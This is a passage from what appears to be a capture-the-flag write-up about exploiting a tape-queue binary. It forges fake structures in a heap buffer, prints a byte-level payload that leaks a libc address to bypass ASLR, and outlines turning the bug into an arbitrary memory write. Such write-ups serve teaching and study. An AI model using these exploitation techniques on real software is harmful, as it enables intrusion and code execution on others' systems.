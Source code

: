 We now need to figure out a page pointer that points to a buffer we control. This will allow us to setup a valid page structure that points to our &#8220;tapes.&#8221; Quickly, let&#8217;s detail the structure of both pages and tapes.

<pre>struct page
{
  int id;
  int number_of_tapes;
  struct tape *tapes[];
};

struct tape
{
  int id;
  char *name;
  char intro_text[256];
};
</pre>

Looking at the code in 0x0804F62, we can see that number\_of\_tapes must be between 0 and 8, inclusive. Obviously, any pointers must point to valid memory.

At this point, it is obvious that we can do information disclosure using a custom name pointer. To do this, we need to construct a page structure and a tape structure. By using the intro text of a tape as our buffer, we will know the address of our custom structures. For simplicity, we will use the intro text of tape 1. The problem here is that the intro text buffer is filled using strcpy, but our structure will need multiple null bytes (e.g. number\_of\_tapes). The solution is to set the intro text multiple times, once for each null byte. For example, here is a payload that will print out address 0x0804b01c (the line is broken up to ease viewing):

<pre>3\n1\n1\n1\n2\n
3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF\xc8\xb0\x04\x083\n
3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n
3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x00\n
3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n
3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\xFF\xFF\x00\n
3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\xFF\x00\n
3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\x00\n
3\n2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0\x04\x08\n1\np\n
</pre>

In the example, tape 1 is used to store the custom structures and tape 2 is used to setup the stack bytes. The address was chosen because it will contain the address of _\_libc\_start_main, which will allow us to bypass library address randomization.

### Exploiting the bug (code execution)

The next step is to turn this into a remote code execution vulnerability. Recall that the only way for us to give the program a reasonable amount of data, is from the &#8220;set intro text&#8221; screen. Also, recall that the intro text is stored inside of the tape structure. Now, since we control a page structure, we also control a list of pointers to tape structures. And since we are doing this from inside of the &#8220;add to queue&#8221; command, we can add an arbitrary address to the list of queued tapes. We pass the index of our tape in the queue to the &#8220;set intro text&#8221; command, and we can overwrite arbitrary memory provided that it contains a valid pointer for the name pointer.
